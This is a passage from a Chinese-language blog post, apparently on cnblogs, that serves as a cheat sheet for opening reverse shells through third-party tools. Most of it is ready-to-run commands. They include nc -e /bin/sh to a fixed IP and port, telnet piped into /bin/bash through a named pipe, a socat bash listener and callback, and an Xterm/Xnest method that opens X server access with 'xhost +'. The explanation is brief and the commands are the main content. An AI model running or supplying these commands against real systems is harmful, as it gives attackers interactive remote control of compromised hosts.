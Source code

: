## 0x2：第三方软件内置“socket通信”+“指令交互”实现反弹shel功能

第三方软件可以通过编译性或者解释性语言，在内部实现系统命中的调用执行以及网络双向通信的功能。理论上说，这类方式的变化是无限的。

### 1. nc

nc 如果安装了正确的版本（存在-e 选项就能直接反弹shell）

```
nc -e /bin/sh 192.168.146.129 2333
```

### 2. telnet反弹shell

```
mknod a p; telnet 10.211.55.2 7777 0<a | /bin/bash 1>a
telnet x.x.x.x 6666 | /bin/bash | telnet x.x.x.x 5555
```

### 3. socat反弹shell

```
# 监听命令
socat file:`tty`,raw,echo=0 tcp-listen:9999

# 反弹命令
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.211.55.2:9999
```

![img](https://img2018.cnblogs.com/blog/532548/201912/532548-20191215201848293-652984613.png) 

### 4. Xterm 

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
# 在主控端配置
# 开启Xserver：　　# TCP 6001
Xnest :1                

# 授予目标机连回来的权限：
xterm -display 127.0.0.1:1          # Run this OUTSIDE the Xnest, another tab
xhost +targetip                         # Run this INSIDE the spawned xterm on the open X Server
# 如果想让任何人都连上：
xhost +                      

# 在受控端执行
# 假设xterm已安装，连回你的Xserver：
xterm -display attackerip:1
或者：
$ DISPLAY=attackerip:0 xterm
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)
